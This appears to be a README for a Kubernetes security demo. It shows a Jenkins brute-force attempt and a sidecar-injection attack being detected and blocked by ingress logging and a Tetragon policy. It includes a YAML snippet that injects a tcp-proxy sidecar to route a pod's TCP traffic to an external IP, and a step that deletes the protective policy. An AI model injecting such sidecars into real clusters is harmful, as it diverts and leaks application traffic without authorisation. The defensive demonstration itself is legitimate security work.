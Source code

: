 # Secure Env

After noticing strange behavior on test environment, we want to secure our prod env.
Therefore, some actions have been taken by Head Of Security.

* We force all our employees to change their passwords.
* We deploy an ingress-nginx in front of jenkins to log all the logins.
* We deploy tetragon to observe the root console of K8s.
* We define a tetragon tracing policy that prevents changing haproxy files.

# Attack Again & Defend

## Jenkins Bruteforce

The attacker tries to bruteforce and login to jenkins on the test env again and this time we get the login attempts in the logs:

```bash
kubectl get pod -n ingress-nginx
kubectl logs <Ingress-Controller-Pod-Name> -f -n ingress-nginx
```

## K8s Pod TCP Traffic Routing

The attacker switches to prod env on octant and tries to inject a sidecar container in the app pod, which routes all the tcp traffic to a remote server.

>**Note**
>in order to show that, the TetragonPolicy must be deleted beforehand: ```kubectl delete TracingPolicy haproxy``` So delete it on `test` environment first, for example.

Edit the app deployment:

```bash
kubectl edit deployment/conduit-backend
```


Inject the sidecar container, directly below `containers` on column 0
Also see [snippet](./snippets/sidecar.yaml) for live demo

```bash..
      - env:
        - name: LISTEN
          value: ":8081"
        - name: TALK
          value: "34.118.40.42:443"
        name: sidecar
        image: tecnativa/tcp-proxy
        imagePullPolicy: Always
```

The new container will not be deployed properly, since a SigKill will be sent to end that process from the tetragon policy we defined before. This can be checked using the following command:

```bash
kubectl get pod -n conduit-app
```

### TEST

### PROD
Switch to PROD via
```kubectl config use-context gke_thorsten-jakoby-tj-projekt_europe-west3_conduit-k8s-prod```


An error status will be noticed for the pods as in the following example:

```bash
conduit-backend-fdc76f894-596d6            1/2     Error              4 (51s ago)   98s
```

We get info about those trials to inject the sidecar and the SigKill action in the tetragon logs as follows:

```bash
kubectl logs -n kube-system ds/tetragon -c export-stdout -f | tetra getevents -o compact
```

You will see something like this in the logs:
![tetragon logs](./images/tetragonLogs.png "Tetragon Logs")

